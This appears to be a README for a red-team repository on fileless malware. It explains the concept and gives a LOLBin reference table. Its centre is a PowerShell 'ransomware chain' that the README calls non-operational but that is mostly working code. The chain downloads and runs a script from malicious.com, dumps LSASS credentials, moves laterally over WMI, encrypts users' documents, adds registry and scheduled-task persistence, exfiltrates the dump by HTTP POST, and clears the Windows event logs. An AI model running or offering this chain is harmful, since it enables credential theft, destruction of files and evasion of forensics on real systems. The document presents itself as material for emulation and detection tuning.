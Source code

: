 

# 🧠 Understanding **100% Fileless Malware**

**Fileless malware** is a highly evasive threat class designed to operate entirely in-memory, without touching the disk — making it exceptionally difficult to detect using traditional endpoint solutions.

---

## ❓ What Is Fileless Malware?

> **Fileless malware** executes malicious logic without dropping persistent binaries to the file system.

Instead, it:
- **Resides in memory (RAM)** throughout execution
- **Leverages native system tools** (e.g., `PowerShell`, `WMIC`, `rundll32`)
- **Reflectively injects** into legitimate processes (e.g., `explorer.exe`)
- **Executes via scripts, macros, or registry-stored payloads**

Because it avoids disk I/O, detection by conventional antivirus (which scans files, not behavior) is significantly reduced.

---

## ✅ Is 100% Fileless Malware Possible?

**Theoretically, yes.** Entire chains can be built with:
- Phishing-delivered **macros or scripts**
- In-memory **reflective DLL loading**
- Native binaries used as **LOLBins**
- **No custom executables** ever touching disk

**In practice**, most campaigns adopt **hybrid techniques**:
- Temporary staging files (deleted post-use)
- Registry-resident scripts
- Memory-resident payloads triggered by disk-based stubs

---

## 🔍 Why It Matters

- 📁 Traditional AV focuses on files, not **process memory or system behavior**
- 🧬 Fileless malware increases **stealth, dwell time, and forensic resistance**
- 🔍 Detection requires advanced **EDR**, **memory scanners**, or **behavior analytics**

---

# ⚠️ Legal & Ethical Notice

This repository contains **advanced cybersecurity simulation content**, strictly for:

- Emulating **fileless malware behavior**
- Weaponizing and chaining **LOLBins**
- Building **CI/CD-based adversarial payloads**
- Simulating **drive-by, in-memory delivery chains**
- Red/purple team **automation and TTP chaining**

> Use is **limited to authorized labs**, red/purple team operations, and **defensive validation environments**.

---

## 🧪 Controlled Simulation Environment Only

- Use in **sandboxed**, **isolated**, and **explicitly authorized** testing infrastructure
- Never deploy on production, third-party, or unapproved assets

---

## ❌ Prohibited Usage

- Unauthorized deployment violates **cybercrime laws**
- This project is **for research purposes only**
- Authors and contributors **disclaim all liability** related to misuse

---

## ✅ Usage Agreement

By accessing this repository, you acknowledge:

- You are **authorized** to conduct testing
- You operate under **legal compliance and ethical approval**
- You **accept full responsibility** for all outcomes, lawful or otherwise

> ⚖️ **Uncertain if your usage is authorized?** Stop immediately. Consult legal or compliance authorities.

---

## 🔗 MITRE Mapped Simulation – 100% Fileless Ransomware Chain

> The following PowerShell emulation is **non-operational**, intended for red team training and blue team detection tuning.

<details>
<summary>💥 Simulated PowerShell Ransomware Chain (MITRE ATT&CK Aligned)</summary>

```powershell
# 🎯 T1190 – Initial Access (Remote Payload Delivery)
$drop = "http://malicious.com/dropper.ps1"
IEX (New-Object Net.WebClient).DownloadString($drop)

# ⚡ T1059.001 – PowerShell Execution
$enc = "[Base64EncodedPayload]"
$bin = [System.Convert]::FromBase64String($enc)
[System.Reflection.Assembly]::Load($bin)

# 🔓 T1548 – Privilege Escalation
Start-Process powershell -ArgumentList "-File elevate.ps1" -Verb RunAs

# 🧪 T1003.001 – Credential Dumping (LSASS)
Invoke-Expression "rundll32 comsvcs.dll, MiniDump (Get-Process lsass).Id dump.dmp full"

# 🔍 T1082 – Host Discovery
Get-WmiObject Win32_ComputerSystem | Select Name, Domain
Get-NetAdapter | Select Name, MacAddress

# 🌐 T1021.001 – Lateral Movement via WMI
wmic /node:TargetPC process call create "powershell -File payload.ps1"

# 💣 T1486 – Impact: Ransomware Behavior
$docs = Get-ChildItem C:\Users\*\Documents -Include *.docx,*.txt -Recurse
foreach ($f in $docs) {
    $content = Get-Content $f.FullName -Raw
    $key = -join ((1..32) | ForEach { [char](Get-Random -Min 65 -Max 90) })
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [Text.Encoding]::UTF8.GetBytes($key.PadRight(32,'X'))
    $aes.IV = New-Object byte[] 16
    $enc = $aes.CreateEncryptor()
    $data = [Text.Encoding]::UTF8.GetBytes($content)
    $cipher = [Convert]::ToBase64String($enc.TransformFinalBlock($data, 0, $data.Length))
    Set-Content -Path $f.FullName -Value $cipher
}

# 📌 T1547.001 – Persistence via Registry + Task Scheduler
Set-ItemProperty -Path "HKCU:\...\Run" -Name "Updater" -Value "powershell -File persist.ps1"
schtasks /create /tn "Updater" /tr "powershell -File persist.ps1" /sc onlogon /rl highest

# 📤 T1041 – Exfiltration via Web Request
$dump = [IO.File]::ReadAllBytes("dump.dmp")
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method POST -Body ([Convert]::ToBase64String($dump))

# 🧹 T1070 – Defense Evasion
Remove-Item C:\Windows\Temp\* -Force
wevtutil cl Security; wevtutil cl Application; wevtutil cl System
```

</details>

---

## 🧩 LOLBins Reference: Living-Off-the-Land Binaries

| Binary            | Function                            | MITRE Techniques                 |
|------------------|-------------------------------------|----------------------------------|
| `rundll32.exe`   | Reflective DLL execution             | T1218.011, T1055.001             |
| `mshta.exe`      | Execute HTA payloads                 | T1218.005                        |
| `regsvr32.exe`   | COM script loading                   | T1218.010                        |
| `wmic.exe`       | Remote execution & WMI abuse         | T1047, T1021.001                 |
| `certutil.exe`   | Download and decode payloads         | T1105, T1140                     |
| `msbuild.exe`    | Compile and execute embedded C#      | T1127.001, T1059.005             |
| `bitsadmin.exe`  | Background network transfer          | T1105                            |
| `schtasks.exe`   | Scheduled task creation for startup  | T1053.005                        |

---

## 🔗 Curated Resources

- [LOLBAS Project](https://lolbas-project.github.io/)
- [MITRE ATT&CK – T1218 Reference](https://attack.mitre.org/techniques/T1218/)
- [PrintNightmare Exploit Analysis](https://itm4n.github.io/printnightmare-not-over/)
- [Advanced DLL Injection Techniques](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- [LOLOL Farm (LOLBin Sandbox)](https://lolol.farm/)
- [LOLGEN – Chain Generator](https://lolgen.hdks.org/)
- [Wikipedia – Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)

---

## 🛡️ Closing Statement

This repository exists to empower **defenders**, **researchers**, and **red teams** to safely emulate high-fidelity adversary behavior using modern, memory-resident techniques.

> Unauthorized use is not only unethical — it’s criminal.

Operate with integrity. Simulate responsibly.

